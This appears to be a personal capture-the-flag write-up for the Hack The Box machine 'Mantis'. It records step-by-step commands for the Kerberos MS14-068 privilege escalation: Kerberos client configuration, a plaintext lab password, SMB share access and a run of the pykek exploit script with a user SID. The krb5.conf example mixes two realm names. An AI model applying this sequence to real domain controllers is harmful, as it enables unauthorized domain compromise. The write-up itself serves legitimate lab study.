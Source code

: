 
We know the OS and will try to find a vulnerability apart from Eternal blue
```
Windows Server 2008 R2 Standard 7601 Service Pack 1 kerberos exploit
```
![[Pasted image 20240516084932.png]]

So the Vulnerability is MS14-68

Will follow this blog 
https://wizard32.net/blog/knock-and-pass-kerberos-exploitation.html


Will install the required packages
```
apt-get install krb5-user cifs-utils rdate
```


Will make the changes in the host file
```
10.10.10.52 mantis HTB.local htb mantis.htb.local 
```


Will make changes in the resolv.conf file
```
nano /etc/resolv.conf
```

will make changes to /etc/krb5.conf
```
[libdefaults]
    default_realm = HTB.LOCAL
  
#Edit the realms entry as follows:
[realms]
    LAB.LOCAL = {
        kdc = mantis.htb.local:88
        admin_server = mantis.htb.local
        default_domain = HTB.LOCAL
    }
  
#Also edit the final section:
[domain_realm]
    .domain.internal = HTB.LOCAL
    domain.internal = HTB.LOCAL

```


set the date
```
rdate -n mantis.htb.local
```

will check the configuration if it works or not
```
J@m3s_P@ssW0rd!
```


```
kinit james
```

```
klist
```
![[Pasted image 20240516091939.png]]


```
smbclient -W HTB.LOCAL //MANTIS/c$ -k
```
![[Pasted image 20240516092052.png]]


```
S-1-5-21-4220043660-4019079961-2895681657-1103
```
![[Pasted image 20240516092352.png]]


Now will need to run a code
https://github.com/mubix/pykek.git
clone this repo
```
python2 ms14-068.py -u james@htb.local -s S-1-5-21-4220043660-4019079961-2895681657-1103 -d mantis.htb.local
```

